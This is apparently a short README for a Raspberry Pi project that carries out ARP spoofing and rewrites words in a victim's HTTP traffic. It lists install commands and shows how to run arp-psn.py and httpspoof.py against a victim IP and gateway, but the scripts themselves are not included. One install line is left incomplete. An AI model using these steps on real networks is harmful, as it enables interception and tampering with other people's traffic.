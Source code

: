 # arpspoof

* Install Scapy
'sudo apt-get install python3-scapy'

Install iptables
sudo apt-get install

Install NetfilterQueue
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install

On your Raspberry Pi:
Open one terminal and run arp-psn.py
sudo python3 arp-psn.py <victim ip> <gateway ip>
  
Open another terminal and run httpspoof.py
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
Note: the word to replace and replacement word must have the same number of characters
  
On the computer that is associated with <victim ip>, access a http website.
